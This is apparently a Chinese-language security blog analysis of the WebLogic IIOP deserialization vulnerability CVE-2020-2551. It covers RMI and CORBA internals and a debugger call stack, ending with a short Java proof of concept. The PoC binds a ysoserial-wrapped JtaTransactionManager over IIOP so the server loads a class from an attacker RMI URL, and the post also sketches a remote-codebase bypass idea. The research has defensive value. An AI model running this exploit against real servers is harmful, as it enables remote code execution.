







## 0x01 漏洞概述

2020年1月15日, Oracle官方发布了CVE-2020-2551的漏洞通告，漏洞等级为高危，CVVS评分为9.8分，漏洞利用难度低。影响范围为10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0。

## 0x02 前置知识

相关概念

> **RMI**: RMI英文全称为Remote Method Invocation，字面的意思就是远程方法调用，其实本质上是RPC服务的JAVA实现，底层实现是JRMP协议，TCP/IP作为传输层。通过RMI可以方便调用远程对象就像在本地调用一样方便。使用的主要场景是分布式系统。
>
> **CORBA**: Common Object Request Broker Architecture（公共对象请求代理体系结构）是由OMG(Object Management Group)组织制定的一种标准分布式对象结构。使用平台无关的语言IDL（interface definition language）描述连接到远程对象的接口，然后将其映射到制定的语言实现。
>
> **IIOP**: CORBA对象之间交流的协议，传输层为TCP/IP。它提供了CORBA客户端和服务端之间通信的标准。

借用知道创宇[《关于 Java 中的 RMI-IIOP》](https://paper.seebug.org/1105/)一文来梳理一下JDK自身IIOP的一些处理过程，通过

```
rmic -iiop com.longofo.example.HelloImpl
```

在`rmi-jndi-ldap-jrmp-jmx-jms-master/rmi-iiop/target/classes`这个目录下进行编译，编译好会在这个路径下多出这些文件。


然后通过下面命令，启动一个命名服务器。

```
orbd -ORBInitialPort 1050 -ORBInitialHost loaclhost
```

IOR几个关键字段：

> - **Type ID**：接口类型，也称为存储库ID格式。本质上，存储库ID是接口的唯一标识符。例如上面的`IDL:omg.org/CosNaming/NamingContext:1.0`
> - **IIOP version**：描述由ORB实现的IIOP版本
> - **Host**：标识ORB主机的TCP/IP地址
> - **Port**：指定ORB在其中侦听客户端请求的TCP/IP端口号
> - **Object Key**：唯一地标识了被ORB导出的servant
> - **Components**：包含适用于对象方法的附加信息的序列，例如支持的ORB服务和专有协议支持等
> - **Codebase**：用于获取stub类的远程位置。通过控制这个属性，攻击者将控制在服务器中解码IOR引用的类，在后面利用中我们能够看到。

通过wireshakr进行抓包，查看数据包长什么样，首先 **85** 和 **87** 是客户端与 **ordb** 通信的数据包。


先看85这个数据包，像ordb通信寻找服务端。



然后87这个数据包，就返回告诉他服务端的IP端口信息。


之后继续往下走，可以看到反序列化的触发的恶意类 **EvilMessage** 被封装在了Stub data中，但是他并不是一个标准的Java反序列化过程。



回到项目，我决定在命令执行的地方下个断点，看看数据流是怎么走的，这是一个调用栈，其实可以很清楚的看到，由于与 **CORBA** 有关系，所以相关的类实际上都是在`com.sun.corba`这个类当中。

```
readObject:9, EvilMessage (com.longofo.example)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeObjectReader:1722, IIOPInputStream (com.sun.corba.se.impl.io)
inputObject:1240, IIOPInputStream (com.sun.corba.se.impl.io)
simpleReadObject:416, IIOPInputStream (com.sun.corba.se.impl.io)
readValueInternal:341, ValueHandlerImpl (com.sun.corba.se.impl.io)
readValue:307, ValueHandlerImpl (com.sun.corba.se.impl.io)
read_value:977, CDRInputStream_1_0 (com.sun.corba.se.impl.encoding)
read_value:271, CDRInputStream (com.sun.corba.se.impl.encoding)
_invoke:-1, _HelloImpl_Tie (com.longofo.example)
dispatchToServant:654, CorbaServerRequestDispatcherImpl (com.sun.corba.se.impl.protocol)
dispatch:205, CorbaServerRequestDispatcherImpl (com.sun.corba.se.impl.protocol)
handleRequestRequest:1700, CorbaMessageMediatorImpl (com.sun.corba.se.impl.protocol)
handleRequest:1558, CorbaMessageMediatorImpl (com.sun.corba.se.impl.protocol)
handleInput:940, CorbaMessageMediatorImpl (com.sun.corba.se.impl.protocol)
callback:198, RequestMessage_1_2 (com.sun.corba.se.impl.protocol.giopmsgheaders)
handleRequest:712, CorbaMessageMediatorImpl (com.sun.corba.se.impl.protocol)
dispatch:474, SocketOrChannelConnectionImpl (com.sun.corba.se.impl.transport)
doWork:1237, SocketOrChannelConnectionImpl (com.sun.corba.se.impl.transport)
performWork:490, ThreadPoolImpl$WorkerThread (com.sun.corba.se.impl.orbutil.threadpool)
run:519, ThreadPoolImpl$WorkerThread (com.sun.corba.se.impl.orbutil.threadpool)
```

这里我选择从 **CorbaMessageMediatorImpl#handleRequestRequest** 这里开始看，因为后面都是开始处理输入的数据了，在 **messageMediator** 对象中存放都是从客户端发送的请求数据对象。



跟进 **CorbaServerRequestDispatcherImpl#dispatch** ，这里需要慢慢看，通过 **request.getObjectKey** 获取请求数据包中的 **Object Key** ，也就是唯一地标识了被 **ORB** 导出的 **servant** 。


这一步和之前的**Okey**都有关系，取出相关联的数据，通过 **getServantWithPI** 进行处理，获取 **servant** 。


跟进 **getServantWithPI** 进行处理，**Servant** 对象通过 **getServant** 进行处理获取得到，然后 **mdi** 通过 **objectAdapter.getInterfaces** 方法通过 **Servant** 和 **objectId** 获取我们这里的接口`RMI:com.longofo.example.HelloInterface:0000000000000000`，**objectId** 是通过前面 **Okey** 弄到的。


然后会调用 **dispatchToServant** 进行处理，在`CorbaServerRequestDispatcherImpl#dispatchToServant`当中有几个if判断，而这几个判断都是和 **method** 或者 **servant** 有关系，**method** 是通过 **request** 对象中的 **Operation** ，通过`SpecialMethod.getSpecialMethod`搞定的。


然后几个if判断是如下所示：

```java
if (method != null)
if (servant instanceof org.omg.CORBA.DynamicImplementation)
if (servant instanceof org.omg.PortableServer.DynamicImplementation)
```

而这里最后来到的触发点是else这里。


```java
OutputStream stream =
                    (OutputStream)invhandle._invoke(
                      operation,
                      (org.omg.CORBA.portable.InputStream)req.getInputObject(),
                      req);
```

而我们刚刚通过`rmic -iiop com.longofo.example.HelloImpl`创建的`_HelloImpl_Tie`实际上这里有个`_invoke`方法，通过 **read_value** 从 **request** 请求中读取数据，而我们看到 **CDRInputStream** 当中的 **read_value** 实际上和 **Java** 的序列化接口 **Serializable** 有关系，所以这里也可以解释为什么是序列化，但是又不是标准的 **InputStream** 数据流。


而之后就是一些反序列化过程，比如这里抓到了反序列化的触发类。


然后通过 **IIOPInputStream#invokeObjectReader** 进行反射调用。


所以到这里可以理解了，实际上IIOP也是一种序列化反序列化的方式，字节流与正常的Java反序列化稍微有点不太一样。



## 0x03 Weblogic IIOP

搜索weblogic IIOP关键字的时候，找到一些关键词，比如 **Invoking-weblogic-ejb-iiop** ，还有下图中的一些demo，似乎和这些有关系。


而我们知道，weblogic之前是在T3位置进行反序列化检查，IIOP位置没有，通过搜索引擎很快就能找到这个

```java
Context.INITIAL_CONTEXT_FACTORY, "weblogic.jndi.WLInitialContextFactory"
Context.PROVIDER_URL, "t3://localhost:7001"
```

如果把T3改成IIOP是否可以把一个对象发送过去的，让服务器自己搞定呢，理由是可以的，weblogic 的RMI-IIOP模型如下：



从官方给的[demo](https://docs.oracle.com/javase/8/docs/technotes/guides/rmi-iiop/tutorial.html#7738)中可以看到，要实现这个需要继承`java.rmi.Remote`，然后通过 **bind** 绑定对象，即可触发。


所以这里需要通过一些办法把它变成 **Remote** 有关系，这里可以通过Yso内置的`Gadgets.createMemoitizedProxy`来实现，**AnnotationInvocationHandler** 这个用来动态代理，把我要构造的利用链封装成 **Remote** 类型。


所以下面这个poc的实现想法就是这么来的，把 **jtaTransactionManager** 封装成一个 **Remote** 类型，在bind时候触发。

```java
public static void main(String[] args) throws Exception {
        String ip = "127.0.0.1";
        String port = "7001";

        Hashtable<String, String> env = new Hashtable<String, String>();
        env.put("java.naming.factory.initial", "weblogic.jndi.WLInitialContextFactory");
        env.put("java.naming.provider.url", String.format("iiop://%s:%s", ip, port));
        Context context = new InitialContext(env);
        // get Object to Deserialize
        JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
        jtaTransactionManager.setUserTransactionName("rmi://127.0.0.1:1099/Exploit");
        Remote remote = Gadgets.createMemoitizedProxy(Gadgets.createMap("pwned", jtaTransactionManager), Remote.class);
        context.bind("hello", remote);
    }
```

上面这个 **poc** 有个缺点，就是需要外连，还有种办法`RMIServerImpl_Stub`当中是可以通过 **newClient** 来实现本地类直接 **invoke** 反射执行，当然这个点我目前找到的需要认证，存在一定的缺陷。




## 0x04 新思路

创宇小哥在服务端代码中指定了远程 **codebase** 地址



然后客户端发起IIOP查询的时候会去远程 **codebase** 加载 **stub** ，这里是`_HelloInterface_Stub`，由于设置了 **codebase** ，所以会来到下图代码当中


然后构造一个伪造的 **stub** ，似乎也能达到目的，可以在 **weblogic** 当中深究一下，weblogic只是针对反序列化啊入口进行了检查，这种 **codebase** 远程加载的方式，似乎没有处理。


## Reference

[关于 Java 中的 RMI-IIOP](https://paper.seebug.org/1105/)

[Weblogic IIOP反序列化漏洞（CVE-2020-2551） 漏洞分析](https://www.anquanke.com/post/id/197605)

